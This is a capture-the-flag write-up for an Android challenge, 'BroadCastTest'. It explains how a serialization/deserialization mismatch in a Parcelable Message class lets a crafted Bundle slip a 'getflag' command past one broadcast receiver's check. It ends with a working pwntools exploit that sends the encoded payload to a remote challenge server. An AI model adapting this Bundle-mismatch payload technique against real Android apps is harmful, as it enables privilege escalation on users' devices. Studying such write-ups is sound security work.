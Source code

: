 ## BroadCastTest
[中文](./README_zh.md) [English](./README.md)
[attachment](./BroadcastTest.apk)

This chall is an android pwn
The vulnerability is about the mismatch between serialization and deserialization
This chall is mainly inspired by CVE-2017-13311, etc.

You can read this article https://weekly-geekly.github.io/articles/457558/index.html, which details the cause of similar vulnerabilities

In the apk, it first read the Base64 string, then base64deocde the data and put it as a Bundle in the broadcast, send it to Receiver2
Receiver2 receives the broadcast, takes out the Bundle, and then takes out a string which key is "command" from the bundle, and determines whether it is getflag,
If not, the Receiver2 will continue to broadcast the data to Receiver3
Receiver3 receives the broadcast, takes out the Bundle, check whether the command is getflag, if so, it outputs "Congratulation"

We cannot pass this check in a normal way, but there is a com.de1ta.broadcasttest.MainActivity $ Message class in the apk, where the serialization and deserialization do not match

In Receiver2, checking whether the command is "getflag" will cause the Bundle to be deserialized. When it is sent to Receiver3, it will be serialized again. Finally, Receiver3 will perform the last deserialization after receiving the Bundle.

Using the vulnerability, the string whose key is command cannot be obtained when it is deserialized in Receiver2. After serialization, the string with key as command and the value of getflag appears, and then the check of Receiver3 can pass, and finally get To flag

Below is the exp
```
from pwn import *
import base64
from hashlib import sha256
import itertools
import string
context.log_level = 'debug'

def proof_of_work(chal):
    #for i in itertools.permutations(string.ascii_letters+string.digits, 4):
    for i in itertools.permutations([chr(i) for i in range(256)], 4):
        sol = ''.join(i)
        if sha256(chal + sol).digest().startswith('\0\0\0'):
            return sol


a = 'SAEAAEJOREwDAAAACAAAAG0AaQBzAG0AYQB0AGMAaAAAAAAABAAAACwAAABjAG8AbQAuAGQAZQAxAHQAYQAuAGIAcgBvAGEAZABjAGEAcwB0AHQAZQBzAHQALgBNAGEAaQBuAEEAYwB0AGkAdgBpAHQAeQAkAE0AZQBzAHMAYQBnAGUAAAAAAP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAwAAAA0AAAA0AAAADQAAAAAAAAAHAAAAYwBvAG0AbQBhAG4AZAAAAAAAAAAHAAAAZwBlAHQAZgBsAGEAZwAAAAcAAABjAG8AbQBtAGEAbgBkAAAAAAAAAA0AAABQAGEAZABkAGkAbgBnAC0AVgBhAGwAdQBlAAAA'
b = base64.b64decode(a)
p = remote('206.189.186.98', 8848)
p.recvuntil('chal= ')
chal = p.recvuntil('\n')[:-1]
p.recvuntil('>>\n')
sol = proof_of_work(chal)
p.send(sol)
p.recvuntil('size')
p.sendline(str(len(b)))
p.recvuntil('please input payload:')
p.send(b)
p.interactive()
```
